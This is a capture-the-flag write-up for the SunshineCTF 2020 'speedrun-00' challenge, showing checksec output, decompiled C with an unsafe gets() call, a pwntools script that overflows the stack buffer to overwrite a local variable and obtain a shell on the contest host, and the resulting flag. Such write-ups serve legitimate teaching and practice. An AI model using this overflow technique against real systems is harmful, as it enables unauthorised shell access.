 # **speedrun-00**
## Task
nc chal.2020.sunshinectf.org 30000
File: chall_00
Tag: binary exploitation 

## Solution

### Checksec 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
* No Canary is so easy to BOF
* System 64 bit
* 
### Decompile with ghidra
```c
void main(void)
{
  char local_48 [56];
  int local_10;
  int local_c;
  
  puts("This is the only one");
  gets(local_48);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```

Easy challenge, just overwrite `local_c` or `local_10` with 0xfacade then challenge solves !

The `local_c` at `0x48 - 0xc` so just write that amount bytes of garbage and then `0xfacade` to overwrite the `local_c` value
Or do the same with `local_10`

 ### Exploit
 ```python
 from pwn import *
binary = context.binary = ELF('./chall_00')
payload =b'A' * (0x48-0xc)
payload += p64(0xfacade)
p = remote('chal.2020.sunshinectf.org',30000)
p.sendline(payload)
p.interactive()

 ```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_00'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done
[*] Switching to interactive mode
This is the only one
$ ls
chall_00
flag.txt
$ cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
```